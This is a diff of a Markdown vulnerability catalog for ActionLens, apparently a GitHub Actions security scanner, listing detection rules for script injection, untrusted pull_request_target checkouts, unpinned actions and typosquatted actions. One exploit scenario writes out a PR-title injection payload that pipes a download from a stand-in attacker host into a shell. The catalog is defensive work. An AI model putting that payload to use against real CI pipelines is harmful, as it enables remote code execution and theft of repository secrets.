

Before and after one commit to chinmaypant21/actionlens, a Markdown page: docs/vulnerability-matrix (in progress).md, the part around one of its changes. Shown at 96% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/docs/vulnerability-matrix (in progress).md
+++ b/docs/vulnerability-matrix (in progress).md
@@ -4,14 +4,23 @@ This document serves as the living research catalog for ActionLens. It documents
 
 ---
 
-## 1. Vulnerability Matrix Summary
+### **Category 1: Malicious Input & Injection**
 
-| Rule ID | Name | Category | Detection Technique | Verification (DAST) | Priority / Status |
-| :--- | :--- | :--- | :--- | :--- | :--- |
-| **`AL-CODE-001`** | **Script / Expression Injection** | SAST Code Analysis | Taint Flow Graph (Source $\to$ Sink) | ✅ Canary Log Verification | **MVP (Planned)** |
-| **`AL-CODE-002`** | **Excessive Token Permissions** | SAST Code Analysis | Workflow / Job Permission Evaluation | ⚠️ Read/Write API Scope Audit | **MVP (Planned)** |
-| **`AL-LINT-001`** | **Unpinned Third-Party Action** | SAST Linting | AST Inspection of `uses:` step references | ❌ N/A (Static Supply Chain) | **MVP (Planned)** |
-| **`AL-CODE-003`** | **Dangerous Pull Request Target** | SAST Code Analysis | Context match: `pull_request_target` + PR checkout | ✅ Fork PR Canary Verification | **Researched** |
-| **`AL-LINT-002`** | **Missing Default Permissions Block** | SAST Linting | Root AST verification of `permissions:` key | ❌ N/A (Static Configuration) | **MVP (Planned)** |
-| **`AL-LINT-003`** | **Insecure Self-Hosted Runner** | SAST Linting | AST inspection of `runs-on: [self-hosted, ...]` | ❌ N/A (Infrastructure) | **Backlog** |
-| **`AL-CODE-004`** | **Artifact Poisoning via `workflow_run`** | SAST Code Analysis | Untrusted artifact download + execution flow | 🔬 Complex multi-workflow DAST | **Research** |
+These vulnerabilities occur when untrusted, external data is improperly handled by the workflow. They require the **Taint Engine to** trace the data flow from an external source to a dangerous execution sink.
+
+|                 |                                              |                                      |                                                                                                                                                                                 |                                                                                                                                                                                                                            |                                         |
+| --------------- | -------------------------------------------- | ------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------- |
+| **Rule ID**     | **Name**                                     | **Category**                         | **Description**                                                                                                                                                                 | **Exploit Scenario**                                                                                                                                                                                                       | **OWASP CI/CD Mapping**                 |
+| **AL-CODE-001** | **Script Injection (RCE)**                   | Taint Analysis (Taint Flow Graph)    | Untrusted GitHub contexts (e.g., github.event.issue.body, github.head_ref) are interpolated directly into a bash script or run block.                                           | An attacker opens a PR with a malicious title like "; curl [attacker.com/malware](https://attacker.com/malware) \| sh; echo ". When the workflow echoes the title, it executes the payload.                                | CICD-SEC-4: Poisoned Pipeline Execution |
+| **AL-CODE-002** | **Untrusted Checkout on Privileged Trigger** | Taint Analysis (Environmental Taint) | A workflow triggered by pull_request_target (which runs in the context of the base repo) explicitly checks out the untrusted HEAD commit of a fork. Its an environmental taint. | An attacker modifies package.json in their fork to include a malicious pre-install script. When the base repo's workflow checks out the fork and runs npm install, it executes the attacker's code with base-repo secrets. | CICD-SEC-4: Poisoned Pipeline Execution |
+
+### **Category 2: Supply Chain & Dependencies**
+
+These vulnerabilities involve the external resources and third-party actions the workflow relies on. They are handled by the **Static Linter (AL-LINT)** because they are structural configuration checks.
+
+|                 |                                            |              |                                                                                                                                       |                                                                                                                                                                                                   |                                    |
+| --------------- | ------------------------------------------ | ------------ | ------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------- |
+| **Rule ID**     | **Name**                                   | **Category** | **Description**                                                                                                                       | **Exploit Scenario**                                                                                                                                                                              | **OWASP CI/CD Mapping**            |
+| **AL-LINT-001** | **Unpinned Third-Party Action**            | Linter       | A uses: statement references a mutable branch or tag (e.g., actions/checkout@v3) rather than a full, 40-character commit SHA.         | The maintainer of a popular third-party action is compromised. The attacker modifies the v3 tag to point to a malicious commit, instantly poisoning thousands of pipelines that rely on that tag. | CICD-SEC-3: Dependency Chain Abuse |
+| **AL-LINT-002** | **Compromised/Untrusted Action Namespace** | Linter       | A uses: statement points to an unverified or potentially typo-squatted namespace (e.g., actons/checkout instead of actions/checkout). | An attacker creates a malicious action mimicking a popular one. Developers accidentally use it, handing their build environment over to the attacker.                                             | CICD-SEC-3: Dependency Chain Abuse |
+
```
Also changed, not shown: other parts of docs/vulnerability-matrix (in progress).md (+13 -65 lines).
